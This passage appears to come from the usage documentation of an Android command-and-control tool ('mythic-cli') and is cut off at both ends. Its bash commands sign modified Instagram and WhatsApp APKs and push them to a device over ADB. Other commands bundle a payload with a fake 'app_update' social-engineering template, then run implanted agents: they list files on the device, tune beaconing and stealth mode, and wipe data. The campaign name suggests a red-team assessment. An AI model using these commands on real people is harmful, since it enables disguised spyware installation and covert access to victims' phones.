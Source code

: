 ```bash
  --output payloads/instagram_enhanced.apk \
  --sign-apk \
  --keystore config/signing.keystore
```

### Payload Deployment

```bash
# Deploy to device via ADB
mythic-cli payload deploy \
  --apk payloads/whatsapp_modified.apk \
  --device "adb:192.168.1.100:5555" \
  --install-method "adb_install"

# Generate deployment package
mythic-cli payload package \
  --apk payloads/whatsapp_modified.apk \
  --include-installer \
  --social-engineering-template "app_update" \
  --output packages/whatsapp_update.zip
```

### Agent Management

```bash
# List active agents
mythic-cli agent list --campaign corp_assess_2024

# Get agent details
mythic-cli agent info --id agent_abc123def456

# Send command to agent
mythic-cli agent command \
  --id agent_abc123def456 \
  --module filesystem \
  --command "ls" \
  --args '{"path": "/sdcard/Downloads"}'

# Update agent configuration
mythic-cli agent config \
  --id agent_abc123def456 \
  --beacon-interval 600 \
  --stealth-mode true

# Remove agent
mythic-cli agent remove --id agent_abc123def456 --wipe-data
```

## Command Reference

### Core Agent Commands
